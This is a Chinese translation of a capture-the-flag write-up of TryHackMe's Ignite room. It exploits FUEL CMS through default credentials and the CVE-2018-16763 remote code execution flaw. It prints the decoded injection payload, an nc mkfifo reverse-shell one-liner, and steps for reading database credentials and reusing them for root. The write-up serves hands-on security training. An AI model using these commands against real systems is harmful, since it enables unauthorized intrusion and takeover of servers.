# [THM]点燃记录

> 原文：<https://infosecwriteups.com/thm-ignite-writeup-9a5ac8ac098?source=collection_archive---------1----------------------->



[Ignite](https://tryhackme.com/room/ignite) 是 TryHackMe 中的一个简单机器，我们将在其中使用基本枚举，了解更多关于 [FUEL CMS](https://www.getfuelcms.com/) 的信息，以及如何探索它以获得对服务器的访问。

首先，让我们用 [MASSCAN](https://github.com/robertdavidgraham/masscan) 看看哪些端口是打开的:

```
masscan -p- --rate 10000 10.10.217.174
```

*   `p-`:枚举所有 TCP 端口，从 1 到 65535
*   `-rate`:每秒向主机发送多少数据包

> 我更喜欢使用 MASSCAN 来枚举端口，因为它比 nmap 快得多，所以在发现端口后，我们可以使用 nmap 来单独检查这些端口中运行的服务。



质量扫描输出

从输出中，我们看到只有**端口 80** 是打开的，所以现在我不会运行 nmap，相反，让我们通过在浏览器中访问 web 服务器来检查我们能找到什么:



http://10.10.217.174/

这里我们找到了 [FUEL CMS](https://www.getfuelcms.com/) 的默认登陆页面，它基本上是一个用于创建 web 应用程序的 [CodeIgniter](https://www.codeigniter.com/) (一个 PHP web 框架)开发平台。

看一看这第一页，有些东西引起了我的注意:



http://10.10.217.174/

`/fuel`目录指向一个登录表单，可以使用默认凭证`admin:admin`访问这个表单(不奇怪)**。**



http://10 . 10 . 217 . 174/燃料

然而，即使有了这个权限，我也不能在管理界面上做太多事情。我尝试了一些[文件上传技术](https://book.hacktricks.xyz/pentesting-web/file-upload)，但似乎能够访问这个页面是一个兔子洞，所以让我们暂时不要管它。

## 接近机器

让我们尝试使用 [searchsploit](https://www.exploit-db.com/searchsploit) 来查找 FUEL CMS 是否有任何已知的漏洞:

```
searchsploit fuel
```



`searchsploit output`

在这种情况下，导致远程代码执行的漏洞是我们最好的朋友，幸运的是，我们有一个这样的工具。我们可以通过运行以下命令来下载脚本:

```
searchsploit -m php/webapps/50477.py
```



searchsploit 镜像命令

*   `-m`:将漏洞镜像到当前工作目录

> 提示:在决定镜像哪个漏洞之前，您可以使用`-x`选项来检查漏洞。

我选择这个特殊的脚本是因为它是用我熟悉的 Python 3 编写的，这使得我在需要时可以更容易地修改一些东西，但是您可以使用任何其他可能适合您的脚本。

该脚本探究了 [CVE-2018-16763](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-16763) 中披露的漏洞，该漏洞表明≤ 1.4.1 版本的 FUEL CMS 容易受到远程代码执行(RCE)的攻击，这是由于在`/pages/select`过滤器参数和`/preview`数据参数中不正确的输入验证造成的。

仔细看看这个脚本，我们可以看到它是如何与服务器通信的:



漏洞脚本

为了解码 URL，我使用了 [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Decode()) 中的`URL Decode`配方，产生了以下代码:

```
main_url = url+"/fuel/pages/select/?filter='+pi(print($a='system'))+$a('"+quote(cmd)+"')+'"
```

所以基本上，这个漏洞所做的就是在服务器中执行一个 [PHP 系统](https://www.php.net/manual/en/function.system.php)命令:



因为我们可以执行系统命令，所以我们可以在服务器中生成一个反向 shell，所以在另一个终端中，让我们开始监听连接:

```
nc -lvnp 1123
```

在运行漏洞利用的终端中，我们可以发送以下命令来生成一个反向 shell:

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
```


之后，我们可以在终端中检查连接是否可以建立:



机器访问✅

首先，我们来换一个更好的外壳:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

现在，我们可以在目录和文件中查找用户标志:

```
cat /home/www-data/flag.txt
```

## 权限提升

在尝试了一些[基本权限提升](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)技术后，我决定再次查看我们找到的第一个页面(默认登录页面)，然后我看到了一些有趣的东西:



http://10.10.217.174/

那么，让我们来看看数据库文件:

```
cat /var/www/html/fuel/application/config/database.php
```

在文件的末尾，我们可以找到一些凭证:



`/var/www/html/fuel/application/config/database.php`

我们可以尝试看看这个密码对于 root 用户是否相同:



确实是！特权升级✅

现在我们可以读取根标志:

```
cat /root/root.txt
```

## 结论

这是一个很好的利用机器，尤其是告诉我们答案就在我们面前，我们只需要记住每当我们遇到困难时，要仔细检查我们已经知道的东西。

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)